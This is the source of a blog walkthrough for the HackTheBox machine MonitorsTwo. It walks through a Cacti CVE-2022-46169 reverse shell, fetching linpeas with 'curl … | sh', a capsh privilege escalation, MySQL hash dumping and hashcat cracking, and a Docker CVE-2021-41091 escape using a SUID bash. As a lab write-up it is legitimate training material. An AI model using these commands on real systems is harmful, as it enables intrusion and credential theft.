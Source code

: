 ```yaml
---
title: "MonitorsTwo"
publishedAt: "2024-10-11"
image: "/images/blog/monitorstwo/htb_monitorstwo.png"
summary: "A detailed walkthrough of exploiting a HackTheBox machine running Cacti v1.2.22. The process involves exploiting CVE-2022-46169 for initial access, using capsh for container privilege escalation, extracting password hashes from MySQL, and leveraging CVE-2021-41091 for Docker container escape to achieve root access."
tag: "HackTheBox"
---
```


## Initial Reconnaissance

We begin by scanning the machine using nmap.

<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: 'nmap -sC -sV [BOX_IP]',
            language: 'bash'
        },
    ]}
    copyButton
/>

We can see that the port 80 is open. The application running on it is **cacti v1.2.22**. A quick search leads to an exploit for this version at the following GitHub repository: [CVE-2022-46169-CACTI-1.2.22](https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22).

## Web Vulnerability Exploitation

<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: 'git clone https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22',
            language: 'bash'
        },
    ]}
    copyButton
/>
<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: 'nc -lvnp [YOUR_PORT]',
            language: 'bash'
        },
    ]}
    copyButton
/>
<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: 'python CVE-2022-46169.py -u http://[BOX_IP] --LHOST=[YOUR_IP] --LPORT=[YOUR_PORT]',
            language: 'bash'
        },
    ]}
    copyButton
/>

Boom, we are inside the server.

## Privilege Escalation

On our machine, we set up a Python web server and pull [linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases/latest) to help with further enumeration.

<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: 'sudo python3 -m http.server 80',
            language: 'bash'
        },
    ]}
    copyButton
/>
<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: 'curl http://[YOUR_IP]/linpeas.sh | sh',
            language: 'bash'
        },
    ]}
    copyButton
/>

LinPEAS indicates a vulnerability with `capsh`. Using the ressources found on [GTFOBins](https://gtfobins.github.io/gtfobins/capsh/), we find a way to exploit this vulnerability:

<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: 'capsh --gid=0 --uid=0 --',
            language: 'bash'
        },
    ]}
    copyButton
/>

Executing `whoami` confirms that we are root.

## Server Discovery

Navigating to the root directory, we locate `entrypoint.sh`. We can look into it with `cat` and then execute it.

<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: 'chmod +x entrypoint.sh',
            language: 'bash'
        },
    ]}
    copyButton
/>
<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: './entrypoint.sh',
            language: 'bash'
        },
    ]}
    copyButton
/>
We can see that this file requests the database for data with `root` as username and password.

We can take a look inside the different tables : 

<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: 'mysql --host=db --user=root --password=root cacti -e "show tables"',
            language: 'bash'
        },
    ]}
    copyButton
/>

From the result of the previous command, we notice the `user_auth` table. We can take a look inside with the following command:

<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: 'mysql --host=db --user=root --password=root cacti -e "select * from user_auth"',
            language: 'bash'
        },
    ]}
    copyButton
/>

This command reveals password hashes for 3 users (admin, guest, marcus). We store the hashes of admin and marcus in `hashes.txt` and we will use hashcat to attempt a dictionary attack:

<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: 'hashcat -m 3200 -a 0 hashes.txt rockyou-75.txt',
            language: 'bash'
        },
    ]}
    copyButton
/>

From hashcat, we get the password `funkymonkey` for the user `marcus`. 

## Lateral Movement

Using this information and the fact that nmap also reported us port 22 (SSH) was open, we attempt an SSH login:

<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: 'ssh marcus@[BOX_IP]',
            language: 'bash'
        },
    ]}
    copyButton
/>

Once inside, a quick `ls` shows the `user.txt` file which grants us the user flag.

## New Privilege Escalation

To continue our efforts towards root access, we once again fetch `linpeas.sh` from our Python webserver. We identify Docker's presence on the machine. 
The Docker version installed, **20.10.5+dfsg1**, is vulnerable to an exploit found on GitHub: [CVE-2021-41091](https://github.com/UncleJ4ck/CVE-2021-41091).

Go back to your machine and clone the PoC repository.

<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: `git clone https://github.com/UncleJ4ck/CVE-2021-41091
cd /tmp
curl http://[YOUR_IP]/exp.sh > exp.sh
chmod +x exp.sh
./exp.sh`,
            language: 'bash'
        },
    ]}
    copyButton
/>

The script asks you to execute the following command on the Docker environment (that we previously rooted).

<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: 'chmod u+s /bin/bash',
            language: 'bash'
        },
    ]}
    copyButton
/>

Navigate to the directory provided in the output of the script and execute:

<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: './bin/bash -p',
            language: 'bash'
        },
    ]}
    copyButton
/>

This grants us a root shell. To find the `root.txt` file, we can use the following command:

<CodeBlock className="my-24"
    compact
    codeInstances={[
        {
            code: 'find / -type f -name root.txt 2>/dev/null ',
            language: 'bash'
        },
    ]}
    copyButton
/>

Reading its content with `cat /root/root.txt` gives us the root flag.
Happy rooting :)